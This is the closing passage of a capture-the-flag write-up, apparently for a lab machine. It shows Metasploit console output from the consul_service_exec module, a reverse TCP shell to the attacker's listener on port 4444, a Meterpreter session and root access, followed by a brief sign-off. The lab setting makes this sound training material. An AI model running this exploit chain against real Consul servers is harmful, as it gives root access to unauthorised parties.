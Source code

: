```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(multi/misc/consul_service_exec) > run
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.10.14.207:4444 
[*] Creating service 'FIpei'
[-] Exploit aborted due to failure: unexpected-reply: An error occured when contacting the Consul API.
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.10.14.207:4444 
[*] Creating service 'LIWuJ'
[*] Service 'LIWuJ' successfully created.
[*] Waiting for service 'LIWuJ' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.207:4444 -> 10.10.11.183:44028) at 2023-02-05 20:09:45 -0500
[*] Removing service 'LIWuJ'
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Session 1 created in the background.
msf6 exploit(multi/misc/consul_service_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 2578 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)

```

And we are root and the box is done.

Thanks for reading this write up u can message me on twitter https://twitter.com/Vojtech1337 and until next time!